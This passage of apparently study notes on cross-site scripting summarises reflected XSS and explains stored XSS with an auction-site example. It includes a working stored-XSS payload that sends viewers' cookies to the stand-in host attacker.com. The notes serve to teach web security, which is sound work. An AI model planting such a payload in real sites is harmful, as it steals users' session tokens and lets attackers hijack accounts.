 
### ✅ Summary

| Concept          | Meaning                                                      |
| ---------------- | ------------------------------------------------------------ |
| Reflected XSS    | Input reflected directly in the response, executed instantly |
| Attack Vector    | URL contains malicious payload                               |
| Goal             | Steal cookies, hijack sessions, execute arbitrary JS         |
| Defense Bypassed | Same-Origin Policy is **abused**, not broken                 |
| Prevalence       | \~75% of real-world XSS bugs                                 |

---

## 🧨 **Stored XSS Vulnerabilities (a.k.a. Second-Order XSS)**

---

### 🔍 What is Stored XSS?

Unlike Reflected XSS (which fires immediately), **Stored XSS** occurs when:

1. **User input is saved (e.g., in a database)**.
2. That input is later **retrieved and displayed to other users**.
3. Without **sanitization or output encoding**.
4. Leading to automatic execution of malicious JavaScript in other users’ browsers.

---

### 🧱 Real-World Example:

> “An auction app lets buyers ask questions. If those questions allow `<script>...</script>` and show up on seller or public pages... Boom.”

#### 💣 Payload Example:

```html
<script>new Image().src='http://attacker.com/'+document.cookie</script>
```

* Buyer posts this as a question.
* Anyone (seller, admin, other buyers) who views the page runs this JS.
* The attacker gets their cookies/session tokens.

✅ Even **admins** are at risk — meaning **total pwnage** is possible.

---

### 🧬 The Attack Flow: (Figure 12-4 Description — Full Breakdown)
